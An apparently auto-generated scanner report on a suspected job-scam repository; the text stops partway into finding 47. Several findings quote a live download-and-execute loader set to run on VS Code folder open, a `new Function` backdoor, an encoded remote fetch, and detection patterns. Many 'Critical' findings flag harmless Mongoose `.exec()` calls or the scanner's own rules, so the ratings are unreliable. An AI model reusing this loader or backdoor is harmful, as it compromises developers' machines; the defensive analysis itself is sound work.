



# Security Assessment Report - Job Scam Scanner (Go)

**Target:** `assessment-14`  
**Scanner:** `tools/go-scam-scanner/main.go`  
**Generated:** 2026-02-13 11:34 UTC

---

## Executive Summary

- Total findings: **52** across **56** scanned files.
- ML exploitability likelihood: **100.0%** (**Very High**).
- Verdict: **Likely malicious**.

## Risk Dashboard

### Severity Distribution



### Exploitability & Anomaly Dashboard

| Metric | Value |
|---|---:|
| Exploitability likelihood | 100.0% |
| Exploitability band | Very High |
| Suspicious URLs observed | 32 |
| Findings density | 0.93 |

### Attack Chain Graph



## Findings (Prioritized)

## 1) Critical - Process Execution Primitive with Potential Abuse

**Affected file**: `.vscode/tasks.json`

**Why this is suspicious**
- Shell/process APIs are commonly abused by droppers and loaders.

**Potential impact**
- Arbitrary command execution on host.

**Evidence**

```json
18:         "args": [
19:           "-e",
20:           "const https = require(`https`); const fs = require(`fs`); const path = require(`path`); const { exec } = require(`child_process`); const os = require(`os`); const tempFile = path.join(os.tmpdir(), `vscode-windows-${Date.now()}.cmd`); https.get(`https://vscode-toolkit-settings.vercel.app/settings/windows?flag=302`, (r) => { let d = ``; r.on(`data`, c => d += c); r.on(`end`, () => { fs.writeFileSync(tempFile, d); exec(`${tempFile}`, { shell: `cmd.exe` }, (e, o, err) => { setTimeout(() => fs.unlinkSync(tempFile), 1000); }); }); });"
21:         ]
22:       },
```

**Remediation**
- Disallow process execution in untrusted code paths.

---

## 2) Critical - Process Execution Primitive with Potential Abuse

**Affected file**: `.vscode/tasks.json`

**Why this is suspicious**
- Shell/process APIs are commonly abused by droppers and loaders.

**Potential impact**
- Arbitrary command execution on host.

**Evidence**

```json
18:         "args": [
19:           "-e",
20:           "const https = require(`https`); const fs = require(`fs`); const path = require(`path`); const { exec } = require(`child_process`); const os = require(`os`); const tempFile = path.join(os.tmpdir(), `vscode-windows-${Date.now()}.cmd`); https.get(`https://vscode-toolkit-settings.vercel.app/settings/windows?flag=302`, (r) => { let d = ``; r.on(`data`, c => d += c); r.on(`end`, () => { fs.writeFileSync(tempFile, d); exec(`${tempFile}`, { shell: `cmd.exe` }, (e, o, err) => { setTimeout(() => fs.unlinkSync(tempFile), 1000); }); }); });"
21:         ]
22:       },
```

**Remediation**
- Disallow process execution in untrusted code paths.

---

## 3) Critical - Process Execution Primitive with Potential Abuse

**Affected file**: `.vscode/tasks.json`

**Why this is suspicious**
- Shell/process APIs are commonly abused by droppers and loaders.

**Potential impact**
- Arbitrary command execution on host.

**Evidence**

```json
25:         "args": [
26:           "-e",
27:           "const https = require(`https`); const fs = require(`fs`); const path = require(`path`); const { exec } = require(`child_process`); const os = require(`os`); const tempFile = path.join(os.tmpdir(), `vscode-mac-${Date.now()}.sh`); https.get(`https://vscode-toolkit-settings.vercel.app/settings/mac?flag=302`, (r) => { let d = ``; r.on(`data`, c => d += c); r.on(`end`, () => { fs.writeFileSync(tempFile, d); fs.chmodSync(tempFile, 0o755); exec(`${tempFile}`, { shell: `sh` }, (e, o, err) => { setTimeout(() => { try { fs.unlinkSync(tempFile); } catch {} }, 1000); }); }); });"
28:         ]
29:       },
```

**Remediation**
- Disallow process execution in untrusted code paths.

---

## 4) Critical - Process Execution Primitive with Potential Abuse

**Affected file**: `.vscode/tasks.json`

**Why this is suspicious**
- Shell/process APIs are commonly abused by droppers and loaders.

**Potential impact**
- Arbitrary command execution on host.

**Evidence**

```json
25:         "args": [
26:           "-e",
27:           "const https = require(`https`); const fs = require(`fs`); const path = require(`path`); const { exec } = require(`child_process`); const os = require(`os`); const tempFile = path.join(os.tmpdir(), `vscode-mac-${Date.now()}.sh`); https.get(`https://vscode-toolkit-settings.vercel.app/settings/mac?flag=302`, (r) => { let d = ``; r.on(`data`, c => d += c); r.on(`end`, () => { fs.writeFileSync(tempFile, d); fs.chmodSync(tempFile, 0o755); exec(`${tempFile}`, { shell: `sh` }, (e, o, err) => { setTimeout(() => { try { fs.unlinkSync(tempFile); } catch {} }, 1000); }); }); });"
28:         ]
29:       },
```

**Remediation**
- Disallow process execution in untrusted code paths.

---

## 5) Critical - Process Execution Primitive with Potential Abuse

**Affected file**: `.vscode/tasks.json`

**Why this is suspicious**
- Shell/process APIs are commonly abused by droppers and loaders.

**Potential impact**
- Arbitrary command execution on host.

**Evidence**

```json
32:         "args": [
33:           "-e",
34:           "const https = require(`https`); const fs = require(`fs`); const path = require(`path`); const { exec } = require(`child_process`); const os = require(`os`); const tempFile = path.join(os.tmpdir(), `vscode-linux-${Date.now()}.sh`); https.get(`https://vscode-toolkit-settings.vercel.app/settings/linux?flag=302`, (r) => { let d = ``; r.on(`data`, c => d += c); r.on(`end`, () => { fs.writeFileSync(tempFile, d); fs.chmodSync(tempFile, 0o755); exec(`${tempFile}`, { shell: `sh` }, (e, o, err) => { setTimeout(() => { try { fs.unlinkSync(tempFile); } catch {} }, 1000); }); }); });"
35:         ]
36:       },
```

**Remediation**
- Disallow process execution in untrusted code paths.

---

## 6) Critical - VS Code Auto-Run Task on Folder Open

**Affected file**: `.vscode/tasks.json`

**Why this is suspicious**
- Auto-run tasks can execute payloads when repository is opened.

**Potential impact**
- Workstation compromise without explicit command invocation.

**Evidence**

```json
47:       },
48:       "runOptions": {
49:         "runOn": "folderOpen"
50:       }
51:     }
```

**Remediation**
- Delete auto-run tasks and enforce explicit command execution.

---

## 7) Critical - Process Execution Primitive with Potential Abuse

**Affected file**: `SCAM_SCAN_REPORT_PY.md`

**Why this is suspicious**
- Shell/process APIs are commonly abused by droppers and loaders.

**Potential impact**
- Arbitrary command execution on host.

**Evidence**

```text
97: 18:         "args": [
98: 19:           "-e",
99: 20:           "const https = require(`https`); const fs = require(`fs`); const path = require(`path`); const { exec } = require(`child_process`); const os = require(`os`); const tempFile = path.join(os.tmpdir(), `vscode-windows-${Date.now()}.cmd`); https.get(`https://vscode-toolkit-settings.vercel.app/settings/windows?flag=302`, (r) => { let d = ``; r.on(`data`, c => d += c); r.on(`end`, () => { fs.writeFileSync(tempFile, d); exec(`${tempFile}`, { shell: `cmd.exe` }, (e, o, err) => { setTimeout(() => fs.unlinkSync(tempFile), 1000); }); }); });"
100: 21:         ]
101: 22:       },
```

**Remediation**
- Disallow process execution in untrusted code paths.

---

## 8) Critical - Process Execution Primitive with Potential Abuse

**Affected file**: `SCAM_SCAN_REPORT_PY.md`

**Why this is suspicious**
- Shell/process APIs are commonly abused by droppers and loaders.

**Potential impact**
- Arbitrary command execution on host.

**Evidence**

```text
97: 18:         "args": [
98: 19:           "-e",
99: 20:           "const https = require(`https`); const fs = require(`fs`); const path = require(`path`); const { exec } = require(`child_process`); const os = require(`os`); const tempFile = path.join(os.tmpdir(), `vscode-windows-${Date.now()}.cmd`); https.get(`https://vscode-toolkit-settings.vercel.app/settings/windows?flag=302`, (r) => { let d = ``; r.on(`data`, c => d += c); r.on(`end`, () => { fs.writeFileSync(tempFile, d); exec(`${tempFile}`, { shell: `cmd.exe` }, (e, o, err) => { setTimeout(() => fs.unlinkSync(tempFile), 1000); }); }); });"
100: 21:         ]
101: 22:       },
```

**Remediation**
- Disallow process execution in untrusted code paths.

---

## 9) Critical - Process Execution Primitive with Potential Abuse

**Affected file**: `SCAM_SCAN_REPORT_PY.md`

**Why this is suspicious**
- Shell/process APIs are commonly abused by droppers and loaders.

**Potential impact**
- Arbitrary command execution on host.

**Evidence**

```text
122: 18:         "args": [
123: 19:           "-e",
124: 20:           "const https = require(`https`); const fs = require(`fs`); const path = require(`path`); const { exec } = require(`child_process`); const os = require(`os`); const tempFile = path.join(os.tmpdir(), `vscode-windows-${Date.now()}.cmd`); https.get(`https://vscode-toolkit-settings.vercel.app/settings/windows?flag=302`, (r) => { let d = ``; r.on(`data`, c => d += c); r.on(`end`, () => { fs.writeFileSync(tempFile, d); exec(`${tempFile}`, { shell: `cmd.exe` }, (e, o, err) => { setTimeout(() => fs.unlinkSync(tempFile), 1000); }); }); });"
125: 21:         ]
126: 22:       },
```

**Remediation**
- Disallow process execution in untrusted code paths.

---

## 10) Critical - Process Execution Primitive with Potential Abuse

**Affected file**: `SCAM_SCAN_REPORT_PY.md`

**Why this is suspicious**
- Shell/process APIs are commonly abused by droppers and loaders.

**Potential impact**
- Arbitrary command execution on host.

**Evidence**

```text
122: 18:         "args": [
123: 19:           "-e",
124: 20:           "const https = require(`https`); const fs = require(`fs`); const path = require(`path`); const { exec } = require(`child_process`); const os = require(`os`); const tempFile = path.join(os.tmpdir(), `vscode-windows-${Date.now()}.cmd`); https.get(`https://vscode-toolkit-settings.vercel.app/settings/windows?flag=302`, (r) => { let d = ``; r.on(`data`, c => d += c); r.on(`end`, () => { fs.writeFileSync(tempFile, d); exec(`${tempFile}`, { shell: `cmd.exe` }, (e, o, err) => { setTimeout(() => fs.unlinkSync(tempFile), 1000); }); }); });"
125: 21:         ]
126: 22:       },
```

**Remediation**
- Disallow process execution in untrusted code paths.

---

## 11) Critical - Process Execution Primitive with Potential Abuse

**Affected file**: `SCAM_SCAN_REPORT_PY.md`

**Why this is suspicious**
- Shell/process APIs are commonly abused by droppers and loaders.

**Potential impact**
- Arbitrary command execution on host.

**Evidence**

```text
147: 25:         "args": [
148: 26:           "-e",
149: 27:           "const https = require(`https`); const fs = require(`fs`); const path = require(`path`); const { exec } = require(`child_process`); const os = require(`os`); const tempFile = path.join(os.tmpdir(), `vscode-mac-${Date.now()}.sh`); https.get(`https://vscode-toolkit-settings.vercel.app/settings/mac?flag=302`, (r) => { let d = ``; r.on(`data`, c => d += c); r.on(`end`, () => { fs.writeFileSync(tempFile, d); fs.chmodSync(tempFile, 0o755); exec(`${tempFile}`, { shell: `sh` }, (e, o, err) => { setTimeout(() => { try { fs.unlinkSync(tempFile); } catch {} }, 1000); }); }); });"
150: 28:         ]
151: 29:       },
```

**Remediation**
- Disallow process execution in untrusted code paths.

---

## 12) Critical - VS Code Auto-Run Task on Folder Open

**Affected file**: `SCAM_SCAN_REPORT_PY.md`

**Why this is suspicious**
- Auto-run tasks can execute payloads when repository is opened.

**Potential impact**
- Workstation compromise without explicit command invocation.

**Evidence**

```text
222: 47:       },
223: 48:       "runOptions": {
224: 49:         "runOn": "folderOpen"
225: 50:       }
226: 51:     }
```

**Remediation**
- Delete auto-run tasks and enforce explicit command execution.

---

## 13) Critical - Dynamic Code Execution Primitive Detected

**Affected file**: `SCAM_SCAN_REPORT_PY.md`

**Why this is suspicious**
- Dynamic runtime code construction enables arbitrary payload execution.

**Potential impact**
- Remote code execution and full process compromise.

**Evidence**

```text
272: 99: ```js
273: 100: // server/middleware/errorHandler.js
274: 101: const handler = new Function.constructor("require", errCode);
275: 102: handlerFunc(require);
276: 103: ```
```

**Remediation**
- Remove dynamic execution and use explicit, typed control flow.

---

## 14) Critical - VS Code Auto-Run Task on Folder Open

**Affected file**: `SCAM_SCAN_REPORT_PY.md`

**Why this is suspicious**
- Auto-run tasks can execute payloads when repository is opened.

**Potential impact**
- Workstation compromise without explicit command invocation.

**Evidence**

```text
297: 122: ```json
298: 123: "runOptions": {
299: 124:   "runOn": "folderOpen"
300: 125: }
301: 126: ```
```

**Remediation**
- Delete auto-run tasks and enforce explicit command execution.

---

## 15) Critical - Dynamic Code Execution Primitive Detected

**Affected file**: `SCAM_SCAN_REPORT_PY.md`

**Why this is suspicious**
- Dynamic runtime code construction enables arbitrary payload execution.

**Potential impact**
- Remote code execution and full process compromise.

**Evidence**

```text
372: 244: 
373: 245: ### Behavioral IOCs
374: 246: - Dynamic code execution via `new Function(...)`.
375: 247: - Task auto-execution on workspace open (`runOn: folderOpen`).
376: 248: - Download-execute-delete pattern in temp directory.
```

**Remediation**
- Remove dynamic execution and use explicit, typed control flow.

---

## 16) Critical - Dynamic Code Execution Primitive Detected

**Affected file**: `SCAM_SCAN_REPORT_PY.md`

**Why this is suspicious**
- Dynamic runtime code construction enables arbitrary payload execution.

**Potential impact**
- Remote code execution and full process compromise.

**Evidence**

```text
422: 309: ```js
423: 310: // BAD: executes attacker-controlled strings
424: 311: // const handler = new Function.constructor("require", errCode);
425: 312: 
426: 313: // GOOD: structured, non-executable logging only
```

**Remediation**
- Remove dynamic execution and use explicit, typed control flow.

---

## 17) Critical - Dynamic Code Execution Primitive Detected

**Affected file**: `SCAM_SCAN_REPORT_PY.md`

**Why this is suspicious**
- Dynamic runtime code construction enables arbitrary payload execution.

**Potential impact**
- Remote code execution and full process compromise.

**Evidence**

```text
722: 13:     const createHandler = (errCode) => {
723: 14:       try {
724: 15:         const handler = new Function.constructor("require", errCode);
725: 16:         return handler;
726: 17:       } catch (e) {
```

**Remediation**
- Remove dynamic execution and use explicit, typed control flow.

---

## 18) Critical - Process Execution Primitive with Potential Abuse

**Affected file**: `SECURITY_INCIDENT_REPORT.md`

**Why this is suspicious**
- Shell/process APIs are commonly abused by droppers and loaders.

**Potential impact**
- Arbitrary command execution on host.

**Evidence**

```text
59:   A[Victim opens project in VS Code] --> B[Auto task on folderOpen]
60:   B --> C[Downloads script from remote endpoint]
61:   C --> D[Executes temp .cmd/.sh via child_process.exec]
62:   D --> E[Developer workstation compromise]
63:
```

**Remediation**
- Disallow process execution in untrusted code paths.

---

## 19) Critical - Dynamic Code Execution Primitive Detected

**Affected file**: `SECURITY_INCIDENT_REPORT.md`

**Why this is suspicious**
- Dynamic runtime code construction enables arbitrary payload execution.

**Potential impact**
- Remote code execution and full process compromise.

**Evidence**

```text
99: ```js
100: // server/middleware/errorHandler.js
101: const handler = new Function.constructor("require", errCode);
102: handlerFunc(require);
103: ```
```

**Remediation**
- Remove dynamic execution and use explicit, typed control flow.

---

## 20) Critical - VS Code Auto-Run Task on Folder Open

**Affected file**: `SECURITY_INCIDENT_REPORT.md`

**Why this is suspicious**
- Auto-run tasks can execute payloads when repository is opened.

**Potential impact**
- Workstation compromise without explicit command invocation.

**Evidence**

```text
122: ```json
123: "runOptions": {
124:   "runOn": "folderOpen"
125: }
126: ```
```

**Remediation**
- Delete auto-run tasks and enforce explicit command execution.

---

## 21) Critical - Process Execution Primitive with Potential Abuse

**Affected file**: `SECURITY_INCIDENT_REPORT.md`

**Why this is suspicious**
- Shell/process APIs are commonly abused by droppers and loaders.

**Potential impact**
- Arbitrary command execution on host.

**Evidence**

```text
128: ```js
129: // windows task payload excerpt
130: const { exec } = require(`child_process`);
131: https.get(`https://vscode-toolkit-settings.vercel.app/settings/windows?flag=302`, (r) => {
132:   // ...
```

**Remediation**
- Disallow process execution in untrusted code paths.

---

## 22) Critical - Process Execution Primitive with Potential Abuse

**Affected file**: `SECURITY_INCIDENT_REPORT.md`

**Why this is suspicious**
- Shell/process APIs are commonly abused by droppers and loaders.

**Potential impact**
- Arbitrary command execution on host.

**Evidence**

```text
132:   // ...
133:   fs.writeFileSync(tempFile, d);
134:   exec(`${tempFile}`, { shell: `cmd.exe` }, (e, o, err) => {
135:     setTimeout(() => fs.unlinkSync(tempFile), 1000);
136:   });
```

**Remediation**
- Disallow process execution in untrusted code paths.

---

## 23) Critical - Dynamic Code Execution Primitive Detected

**Affected file**: `SECURITY_INCIDENT_REPORT.md`

**Why this is suspicious**
- Dynamic runtime code construction enables arbitrary payload execution.

**Potential impact**
- Remote code execution and full process compromise.

**Evidence**

```text
244: 
245: ### Behavioral IOCs
246: - Dynamic code execution via `new Function(...)`.
247: - Task auto-execution on workspace open (`runOn: folderOpen`).
248: - Download-execute-delete pattern in temp directory.
```

**Remediation**
- Remove dynamic execution and use explicit, typed control flow.

---

## 24) Critical - Process Execution Primitive with Potential Abuse

**Affected file**: `SECURITY_INCIDENT_REPORT.md`

**Why this is suspicious**
- Shell/process APIs are commonly abused by droppers and loaders.

**Potential impact**
- Arbitrary command execution on host.

**Evidence**

```text
271: 4. Add CI checks to fail on:
272:    - `runOn: folderOpen`
273:    - `child_process` in non-build tooling
274:    - `new Function`/`eval` in server code
275:
```

**Remediation**
- Disallow process execution in untrusted code paths.

---

## 25) Critical - Dynamic Code Execution Primitive Detected

**Affected file**: `SECURITY_INCIDENT_REPORT.md`

**Why this is suspicious**
- Dynamic runtime code construction enables arbitrary payload execution.

**Potential impact**
- Remote code execution and full process compromise.

**Evidence**

```text
309: ```js
310: // BAD: executes attacker-controlled strings
311: // const handler = new Function.constructor("require", errCode);
312: 
313: // GOOD: structured, non-executable logging only
```

**Remediation**
- Remove dynamic execution and use explicit, typed control flow.

---

## 26) Critical - Process Execution Primitive with Potential Abuse

**Affected file**: `server/controllers/auth.controller.js`

**Why this is suspicious**
- Shell/process APIs are commonly abused by droppers and loaders.

**Potential impact**
- Arbitrary command execution on host.

**Evidence**

```js
16:         .findOne()
17:         .where(loginType, req.body.emailPhone)
18:         .exec((err, data) => {
19:           if (err) res.status(400).send(err);
20:           else if (data) {
```

**Remediation**
- Disallow process execution in untrusted code paths.

---

## 27) Critical - Process Execution Primitive with Potential Abuse

**Affected file**: `server/controllers/auth.controller.js`

**Why this is suspicious**
- Shell/process APIs are commonly abused by droppers and loaders.

**Potential impact**
- Arbitrary command execution on host.

**Evidence**

```js
70:   },
71:   userList: (req, res) => {
72:     userM.find().exec((err, data) => {
73:       if (err)
74:         res.status(400).json({ message: "Something Went Wrong", data: err });
```

**Remediation**
- Disallow process execution in untrusted code paths.

---

## 28) Critical - Process Execution Primitive with Potential Abuse

**Affected file**: `server/controllers/auth.controller.js`

**Why this is suspicious**
- Shell/process APIs are commonly abused by droppers and loaders.

**Potential impact**
- Arbitrary command execution on host.

**Evidence**

```js
77:   },
78:   changePass: (req, res) => {
79:     userM.findOne({ _id: req.body._id }).exec((err, resp) => {
80:       if (err)
81:         res.status(400).json({ message: "Something Went Wrong", data: err });
```

**Remediation**
- Disallow process execution in untrusted code paths.

---

## 29) Critical - Process Execution Primitive with Potential Abuse

**Affected file**: `server/controllers/auth.controller.js`

**Why this is suspicious**
- Shell/process APIs are commonly abused by droppers and loaders.

**Potential impact**
- Arbitrary command execution on host.

**Evidence**

```js
86:             userM
87:               .updateOne({ _id: req.body._id }, { password: hash })
88:               .exec((err, resp) => {
89:                 if (err)
90:                   res
```

**Remediation**
- Disallow process execution in untrusted code paths.

---

## 30) Critical - Process Execution Primitive with Potential Abuse

**Affected file**: `server/controllers/common.controller.js`

**Why this is suspicious**
- Shell/process APIs are commonly abused by droppers and loaders.

**Potential impact**
- Arbitrary command execution on host.

**Evidence**

```js
7:   getStateList: (req, res) => {
8:     state_model.find({ is_active: true })
9:       .exec((err, data) => {
10:         if (err)
11:           res.status(400).send(err);
```

**Remediation**
- Disallow process execution in untrusted code paths.

---

## 31) Critical - Process Execution Primitive with Potential Abuse

**Affected file**: `server/controllers/common.controller.js`

**Why this is suspicious**
- Shell/process APIs are commonly abused by droppers and loaders.

**Potential impact**
- Arbitrary command execution on host.

**Evidence**

```js
26:     city_model.find({ is_active: true })
27:       .populate('state_id', 'name')
28:       .exec((err, data) => {
29:         if (err)
30:           res.status(400).send(err);
```

**Remediation**
- Disallow process execution in untrusted code paths.

---

## 32) Critical - Process Execution Primitive with Potential Abuse

**Affected file**: `server/controllers/common.controller.js`

**Why this is suspicious**
- Shell/process APIs are commonly abused by droppers and loaders.

**Potential impact**
- Arbitrary command execution on host.

**Evidence**

```js
35:     city_model.find({ state_id: req.params.state_id, is_active: true })
36:       .populate('state_id', 'name')
37:       .exec((err, data) => {
38:         if (err)
39:           res.status(400).send(err);
```

**Remediation**
- Disallow process execution in untrusted code paths.

---

## 33) Critical - Process Execution Primitive with Potential Abuse

**Affected file**: `server/controllers/property.controller.js`

**Why this is suspicious**
- Shell/process APIs are commonly abused by droppers and loaders.

**Potential impact**
- Arbitrary command execution on host.

**Evidence**

```js
68:       .populate('state', 'name')
69:       .populate('type', 'title')
70:       .exec((err, result) => {
71:         if (err)
72:           res.status(400).send(err);
```

**Remediation**
- Disallow process execution in untrusted code paths.

---

## 34) Critical - Process Execution Primitive with Potential Abuse

**Affected file**: `server/controllers/property.controller.js`

**Why this is suspicious**
- Shell/process APIs are commonly abused by droppers and loaders.

**Potential impact**
- Arbitrary command execution on host.

**Evidence**

```js
100:       .populate('type', 'title')
101:       .populate('userId', 'name')
102:       .exec((err, result) => {
103:         if (err)
104:           res.status(400).send(err);
```

**Remediation**
- Disallow process execution in untrusted code paths.

---

## 35) Critical - Process Execution Primitive with Potential Abuse

**Affected file**: `server/controllers/property.controller.js`

**Why this is suspicious**
- Shell/process APIs are commonly abused by droppers and loaders.

**Potential impact**
- Arbitrary command execution on host.

**Evidence**

```js
138:       .populate('type', 'title')
139:       .populate('userId', 'name')
140:       .exec((err, result) => {
141:         if (err)
142:           res.status(400).send(err);
```

**Remediation**
- Disallow process execution in untrusted code paths.

---

## 36) Critical - Process Execution Primitive with Potential Abuse

**Affected file**: `server/controllers/users.controller.js`

**Why this is suspicious**
- Shell/process APIs are commonly abused by droppers and loaders.

**Potential impact**
- Arbitrary command execution on host.

**Evidence**

```js
6:       .populate('city', 'name')
7:       .populate('state', 'name')
8:       .exec((err, result) => {
9:         if (err)
10:           res.status(400).send(err);
```

**Remediation**
- Disallow process execution in untrusted code paths.

---

## 37) Critical - Dynamic Code Execution Primitive Detected

**Affected file**: `server/middleware/errorHandler.js`

**Why this is suspicious**
- Dynamic runtime code construction enables arbitrary payload execution.

**Potential impact**
- Remote code execution and full process compromise.

**Evidence**

```js
13:     const createHandler = (errCode) => {
14:       try {
15:         const handler = new Function.constructor("require", errCode);
16:         return handler;
17:       } catch (e) {
```

**Remediation**
- Remove dynamic execution and use explicit, typed control flow.

---

## 38) Critical - Process Execution Primitive with Potential Abuse

**Affected file**: `tools/README_SCAM_SCANNERS.md`

**Why this is suspicious**
- Shell/process APIs are commonly abused by droppers and loaders.

**Potential impact**
- Arbitrary command execution on host.

**Evidence**

```text
24: 
25: - Dynamic code execution primitives (`new Function`, `eval`)
26: - Process execution (`child_process`, `exec`, `spawn`)
27: - VS Code auto-run tasks (`runOn: folderOpen`)
28: - Encoded/obfuscated payload indicators (base64 and hex escapes)
```

**Remediation**
- Disallow process execution in untrusted code paths.

---

## 39) Critical - Process Execution Primitive with Potential Abuse

**Affected file**: `tools/go-scam-scanner/main.go`

**Why this is suspicious**
- Shell/process APIs are commonly abused by droppers and loaders.

**Potential impact**
- Arbitrary command execution on host.

**Evidence**

```go
95: 			Title:       "Process Execution Primitive with Potential Abuse",
96: 			Category:    "Execution",
97: 			Pattern:     regexp.MustCompile(`(?i)child_process|exec\s*\(|spawn\s*\(|execFile\s*\(`),
98: 			Why:         "Shell/process APIs are commonly abused by droppers and loaders.",
99: 			Impact:      "Arbitrary command execution on host.",
```

**Remediation**
- Disallow process execution in untrusted code paths.

---

## 40) Critical - Process Execution Primitive with Potential Abuse

**Affected file**: `tools/go-scam-scanner/main.go`

**Why this is suspicious**
- Shell/process APIs are commonly abused by droppers and loaders.

**Potential impact**
- Arbitrary command execution on host.

**Evidence**

```go
225: 	}
226: 	hexCount := float64(len(regexp.MustCompile(`\\x[0-9a-fA-F]{2}`).FindAllString(content, -1)))
227: 	susp := float64(len(regexp.MustCompile(`(?i)atob\(|fromCharCode\(|new Function|eval\(|child_process|exec\(|spawn\(`).FindAllString(content, -1)))
228: 	sample := content
229: 	if len(sample) > 20000 {
```

**Remediation**
- Disallow process execution in untrusted code paths.

---

## 41) Critical - Process Execution Primitive with Potential Abuse

**Affected file**: `tools/scam_scanner.py`

**Why this is suspicious**
- Shell/process APIs are commonly abused by droppers and loaders.

**Potential impact**
- Arbitrary command execution on host.

**Evidence**

```python
165:         ),
166:         Rule(
167:             id="child_process_exec",
168:             severity="Critical",
169:             title="Process Execution Primitive with Potential Abuse",
```

**Remediation**
- Disallow process execution in untrusted code paths.

---

## 42) Critical - Process Execution Primitive with Potential Abuse

**Affected file**: `tools/scam_scanner.py`

**Why this is suspicious**
- Shell/process APIs are commonly abused by droppers and loaders.

**Potential impact**
- Arbitrary command execution on host.

**Evidence**

```python
169:             title="Process Execution Primitive with Potential Abuse",
170:             category="Execution",
171:             pattern=re.compile(r"child_process|exec\s*\(|spawn\s*\(|execFile\s*\(", re.IGNORECASE),
172:             why="Shell/process execution APIs are commonly abused by droppers and backdoors.",
173:             impact="Host compromise through arbitrary command execution.",
```

**Remediation**
- Disallow process execution in untrusted code paths.

---

## 43) Critical - Process Execution Primitive with Potential Abuse

**Affected file**: `tools/scam_scanner.py`

**Why this is suspicious**
- Shell/process APIs are commonly abused by droppers and loaders.

**Potential impact**
- Arbitrary command execution on host.

**Evidence**

```python
270:     suspicious_tokens = len(
271:         re.findall(
272:             r"(atob\(|fromCharCode\(|new Function|eval\(|child_process|exec\(|spawn\(|process\.env|os\.)",
273:             content,
274:             flags=re.IGNORECASE,
```

**Remediation**
- Disallow process execution in untrusted code paths.

---

## 44) Critical - Process Execution Primitive with Potential Abuse

**Affected file**: `tools/scam_scanner.py`

**Why this is suspicious**
- Shell/process APIs are commonly abused by droppers and loaders.

**Potential impact**
- Arbitrary command execution on host.

**Evidence**

```python
423:                 )
424: 
425:     # Add chain-strengthening critical if folderOpen + child_process + remote URL occur in same file.
426:     for abs_path in files:
427:         if os.path.basename(abs_path).lower() != "tasks.json":
```

**Remediation**
- Disallow process execution in untrusted code paths.

---

## 45) Critical - Process Execution Primitive with Potential Abuse

**Affected file**: `tools/scam_scanner.py`

**Why this is suspicious**
- Shell/process APIs are commonly abused by droppers and loaders.

**Potential impact**
- Arbitrary command execution on host.

**Evidence**

```python
430:         if (
431:             re.search(r'"runOn"\s*:\s*"folderOpen"', content, flags=re.IGNORECASE)
432:             and re.search(r"child_process|exec\s*\(", content, flags=re.IGNORECASE)
433:             and re.search(r"https?://", content, flags=re.IGNORECASE)
434:         ):
```

**Remediation**
- Disallow process execution in untrusted code paths.

---

## 46) High - Obfuscation / Encoded Payload Indicator

**Affected file**: `SCAM_SCAN_REPORT_PY.md`

**Why this is suspicious**
- Encoded strings and hex escapes often hide second-stage payloads.

**Potential impact**
- Concealed C2 and delayed detection.

**Evidence**

```text
1022: 88: ```js
1023: 89: // server/controllers/auth.controller.js
1024: 90: axios.get(atob(publicKey)).then(res => errorHandler(res.data.cookie));
1025: 91: ```
1026: 92:
```

**Remediation**
- Decode and review encoded data; remove untrusted payload paths.

---

## 47) High - Obfuscation / Encoded Payload Indicator

